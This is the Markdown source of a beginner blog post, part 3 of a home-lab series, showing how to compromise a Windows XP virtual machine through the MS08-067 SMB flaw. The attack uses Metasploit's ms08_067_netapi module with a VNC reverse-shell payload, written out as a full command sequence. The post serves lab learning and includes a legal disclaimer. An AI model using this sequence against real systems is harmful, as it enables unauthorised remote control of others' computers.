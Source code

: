 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Vulnerability)"
date:   2018-03-28 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 2 (Searching for Targets and their Weaknesses)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

Now that we have successfully obtained a list of all the vulnerabilities, we are going to use one of the bigger ones. You could use more than one of the critical vulnerabilities in Nessus but we are going to use MS08_067

<b>Finding The Commands To Hack Windows XP

Once we have the codes, we need to look them up in the "Rapid 7" database. Rapid 7 is a company that develops a cool called Metasploit, which is the tool we use to actually hack another computer. We are going to use a tool called a VNC (Virtual Network Computing). This is a window that contains the remote operating system. It allows mouse and keyboard controls, much like the virtual machine you are using now.

First, go to the [Rapid7 Vulnerabilities & Exploit Database][Rapid7-DB]

Type in the vulnerability code we want to use. In our particular case, it is MS08_067

In the drop-down menu to the right of the search field, choose "Metasploit Modules"

Look under "Module Name" and identify the code exploit/windows/smb/ms08_067_netapi. We will use this later

<b>Loading Exploits and Payloads</b>
<br>[Offensive Security - Metasploit Commands][Metasploit-Commands]
<br>[Offensive Security - Using Exploits][Using-Exploits]

Open terminal and type in the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Wait for it to load then type in the following

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

Next we will need to use a payload. A payload is basic software that takes advantage of the exploit. So type

{% highlight ruby %}
set PAYLOAD /windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Setting Up The Attack

You will need to load a list of settings before running the command to hack the Windows XP computer. We can do this by typing

{% highlight ruby %}
show options
#you can use show options for any exploit/payload you end up choosing in the future.
{% endhighlight %}

You should get something like the image below

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may notice that a few of the fields are empty. RHOST and LHOST. RHOST is the remote host. The IP of the target computer. LHOST is the local host. Your computer.

You may not know your own IP. So open a new terminal tab with Ctrl+Shift+T and type

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should see something like this. I highlighted the IP in yellow.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

Type in the following, but replace the RHOST IP with the Windows IP you found earlier and LHOST of the Kali IP.

{% highlight ruby %}
set RHOST 192.168.1.244
{% endhighlight %}

{% highlight ruby %}
set LHOST 192.168.1.48
{% endhighlight %}

We have everything we need right? Just one more setting. This will allow us to control the computer rather than simply spy on it.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

<b>Hack It!

Now run show options again and you should have something like this.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

Run the following command.

{% highlight ruby %}
exploit
{% endhighlight %}

Congratulations. You did it! You can now do whatever you like to the target computer.

![image tooltip](/blog/images/ms08_067/owned.JPG)

<br>[Homepage][homepage]

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[homepage]: https://danielloosec.github.io/blog/
[Rapid7-DB]: https://www.rapid7.com/db
[Using-Exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[Metasploit-Commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
